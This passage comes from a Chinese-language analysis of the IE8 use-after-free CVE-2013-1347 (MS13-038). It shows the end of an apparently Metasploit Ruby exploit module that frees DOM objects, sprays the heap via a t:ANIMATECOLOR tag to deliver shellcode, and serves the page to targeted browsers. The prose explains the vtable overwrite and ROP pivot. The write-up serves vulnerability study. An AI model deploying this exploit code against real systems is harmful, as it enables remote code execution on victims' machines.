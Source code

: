 ```Ruby
      CollectGarbage();
      f1.appendChild(document.createElement('table'));
      try      { f0.offsetParent=null;}
      catch(e) { }
      f2.innerHTML = "";
      f1.innerHTML = "";
      f0.appendChild(document.createElement('hr'));
      mstime_malloc({shellcode:magenta, heapBlockSize:0x38, objId:"myanim"});
    }
    </script>
    </head>
    <body onload="eval(helloWorld());">
    <t:ANIMATECOLOR id="myanim"/>
    </body>
    </html>
    |

    return html
  end

  def on_request_uri(cli, request)
    agent = request.headers['User-Agent']
    uri   = request.uri
    print_status("Requesting: #{uri}")

    my_target = get_target(agent)
    if my_target.nil?
      print_error("Browser not supported, sending 404: #{agent}")
      send_not_found(cli)
      return
    end

    html = load_exploit_html(my_target, cli)
    html = html.gsub(/^ {4}/, '')
    print_status("Sending HTML...")
    send_response(cli, html, {'Content-Type'=>'text/html'})
  end
end
```

IE8 中存在一个叫做 t:ANIMATECOLOR 的标签，其标签值为一个用分号分隔的字符串。标签对象的每个元素都时一个指针，指向分号分隔出的字符串，因此其大小取决于分号的个数，即我们可以任意控制该对象的大小和其作为指针的元素指向的内容。由漏洞分析得知 UAF 对象的大小为 0x4c，故 exp 创建了包含 0x4c / 4 = 13 个分号的字符串，且第一个分号前的字符串被用于覆盖虚表指针。随后即可劫持程序执行流到 ROP 链上再跳转到 shellcode 上是新鲜任意代码执行

## 漏洞修复

相应渲染逻辑被修改后漏洞修复

## Reference

[Microsoft Security Bulletin MS13-038 - Critical](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2013/ms13-038)
[Github - CVE-2013-1347](https://github.com/advisories/GHSA-4j4f-7rwg-p4q7)
[NVD - CVE-2013-1347](https://nvd.nist.gov/vuln/detail/CVE-2013-1347)
[CVE - CVE-2013-1347](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-1347)
[漏洞战争](https://book.douban.com/subject/26830238/)
